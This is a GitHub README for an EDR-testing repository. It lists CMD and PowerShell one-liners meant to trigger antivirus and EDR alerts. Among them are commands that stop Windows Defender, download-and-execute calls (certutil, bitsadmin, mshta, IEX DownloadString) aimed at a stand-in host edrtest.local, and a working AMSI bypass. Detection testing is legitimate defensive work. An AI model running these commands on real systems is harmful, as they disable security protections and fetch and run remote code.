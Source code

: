 # edrtrigger

# EDR Trigger (Non-Malicious Testing)

> [!WARNING]
>
> Set of commands are intended for **non-malicious testing** to trigger simple EDR/AV alerts or detections. Although all these are non-malicious and use non-routable TLD (`.local`), they should only be executed in production environments if permitted by **compliance policies or explicit exceptions**. Proceed at your own risk.

## CMD

1. **Tasklist Enumeration**  
```cmd
cmd.exe /c tasklist
```

2. **Disabling Windows Defender**  
```cmd
cmd.exe /c sc stop WinDefend
```

3. **Certutil Download**  
```cmd
cmd.exe /c certutil.exe -urlcache -split -f http://7-zip.org/a/7z2405-x64.exe 7zip_installer.exe
```

4. **LOLBAS: Rundll32 (JavaScript Execution)**  
```cmd
cmd.exe /c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write('Hello');"
```

5. **Whoami (Enumeration)**  
```cmd
cmd.exe /c whoami > %TEMP%\whoami.txt
```

6. **MSHTA Launching Remote Script**  
```cmd
cmd.exe /c mshta.exe http://edrtest.local/evil.hta
```

7. **BITSAdmin Downloading Payload**  
```cmd
cmd.exe /c bitsadmin /transfer myjob /download /priority high http://edrtest.local/file.exe C:\Users\Public\file.exe
```

## Powershell

1. **Encoded PowerShell**  
```powershell
powershell -EncodedCommand CgpoZWxsbyBlZHI=
```

2. **PowerShell Abuse**  
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://edrtest.local/ps_script.ps1')"
```

3. **AMSI Bypass**  
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

4. **Malicious Macro Trigger**  
```powershell
Shell("powershell -w hidden -nop -c iex(iwr http://edrtest.local/ps_script.ps1)")
```

5. **COM Abuse (Excel COM Object Execution)**  
```powershell
$xls = New-Object -ComObject Excel.Application; $xls.Visible = $false; $xls.Quit()
```
